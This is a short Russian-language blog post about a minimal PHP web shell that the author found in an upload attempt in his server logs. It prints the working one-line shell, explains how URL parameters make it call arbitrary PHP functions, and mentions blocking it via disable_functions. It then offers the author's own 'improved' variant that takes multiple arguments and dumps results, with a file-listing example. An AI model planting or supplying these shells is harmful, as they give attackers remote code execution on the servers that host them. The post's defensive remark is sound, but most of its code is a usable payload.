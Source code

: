 ```yaml
---
title: "Самый маленький PHP shell"
date: "2021-07-28T20:34:56.000Z"
description: "Или атаки хакеров на PHP в 2021 году  Давеча увидел в логах попытку залить такую вот штуку, решил поделиться. Это самый маленьки"
---
```


<p><strong>Или атаки хакеров на PHP в 2021 году</strong></p><p>Давеча увидел в логах попытку залить такую вот штуку, решил поделиться. Это самый маленький шелл:</p><pre><code class="language-php">&lt;?= @extract($_REQUEST); @die($callf($shargs));</code></pre><p>Собственно тут все просто. Для тех, кто не сразу увидел проблему, поясню: теперь подставляя в URL параметры ?callf=функция&amp;shargs=аргумент можно выполнить простые действия. Например:</p><pre><code>http://target.lol/foo/some?callf=date&amp;shargs=Y-m-d

Выведет результат работы date('Y-m-d')</code></pre><p>Это самое безобидно. А что можно натворить обидного нафантазируете сами. У меня этот шелл всеравно не сработал из-за настроек безопасности, самое простое это в php.ini перечислить функции для запрета:</p><pre><code class="language-bash">disable_functions = extract, ...</code></pre><p>И так далее. Тогда все функции, указанные в этой настройке будут считаться несуществующими.</p><p>Кстати, если бы я писал такой шел, то для 2021 года я бы его модифицировал так:</p><pre><code class="language-php">&lt;?= @extract($_REQUEST); @die(var_dump($callf(...$shargs)));</code></pre><p>Это позволяет передавать более одного аргумента, а так же позволяет возвращать массив данных (в отличие от предыдущего варианта):</p><pre><code>?callf=glob&amp;callf[]=*</code></pre><p>Выведет дамп массива файлов в текущем каталоге.</p>

